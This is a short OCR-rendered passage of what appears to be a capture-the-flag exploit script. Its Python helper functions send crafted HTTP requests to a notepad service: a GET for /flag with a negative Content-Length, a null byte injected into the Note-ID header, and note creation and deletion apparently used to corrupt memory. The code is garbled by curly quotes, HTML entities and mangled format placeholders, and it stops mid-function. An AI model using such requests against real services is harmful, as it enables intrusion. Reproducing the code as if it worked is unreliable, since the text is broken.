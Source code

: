     payload =  “GET /flag HTTP/1.1\r\n”

    payload += “Content-Length: -1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

def new_node(login_id, cont):

    payload =  “POST /notepad HTTP/1.1\r\n”

    payload += “Content-Length: `{``}`\r\n”.format(len(cont))

    payload += “Content-Type: application/x-www-form-urlencoded\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “Note-Operation: new%20note\r\n”

    payload += “\r\n”

    payload += cont

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​

def delete_node(login_id, idx):

    payload =  “POST /notepad HTTP/1.1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “Note-ID: `{``}`%00\r\n”.format(idx)

    payload += “Note-Operation: delete%20note\r\n”

    payload += “Content-Length: 0\r\n”

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​

def edit_note(login_id, cont, note_id):
